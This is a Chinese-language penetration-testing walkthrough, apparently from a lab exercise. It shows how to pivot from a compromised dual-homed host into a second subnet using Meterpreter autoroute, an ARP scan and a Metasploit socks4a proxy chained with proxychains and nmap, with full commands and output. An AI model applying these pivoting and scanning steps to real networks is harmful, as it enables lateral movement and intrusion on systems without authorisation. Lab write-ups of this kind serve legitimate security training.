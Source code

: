 **<br>**

**0x02 Step2**



发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由[不添加路由也可以直接用meterpreter shell中的模块访问 到7.7.7.x网段,添加路由的目的是为了使得msf模块可以访问到7.7.7.x网段],meterpreter shell可以访问到7.7.7.x网段,msf 中的模块不能访问到7.7.7.x网段,msf中的模块所处的ip是攻击者的ip,meterpreter shell所处的ip是RD的ip.在meterpreter中 添加路由的目的是为了给msf模块作代理,也即给Attacker作代理,但是只能给Attacker的msf模块作代理,要想给Attacker的其他 应用程序作代理,则需要在meterpreter添加路由后再运行msf的开启sock4的模块,然后再用proxychains来设置Attacker的其他 应用程序的代理为msf的开启sock4代理模块中设置的代理入口。

操作如下:

```
meterpreter &gt; run autoroute -s 7.7.7.0/24[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11[*] Use the -p option to list all active routes
meterpreter &gt; run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- ------- 7.7.7.0 255.255.255.0 Session 2meterpreter &gt;
```

然后开始扫描7.7.7.0网段,操作如下:

```
meterpreter &gt; run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter &gt;
```

arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来扫 描,因为前面添加了路由,使得msf中的模块可以用meterpreter作为代理访问到7.7.7.x网段],于是用Attacker本机的nmap来扫[可以 更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上开sockets4代理,然后用proxychains设置nmap的代理为msf模块开 启的Attacker的1080端口提供的代理,操作如下:

```
meterpreter &gt; background 
[*] Backgrounding session 2...
msf &gt; use auxiliary/server/socks4a 
msf auxiliary(socks4a) &gt; show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) &gt; set srvhost 172.16.0.20
srvhost =&gt; 172.16.0.20msf auxiliary(socks4a) &gt; run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) &gt; netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) &gt;
```
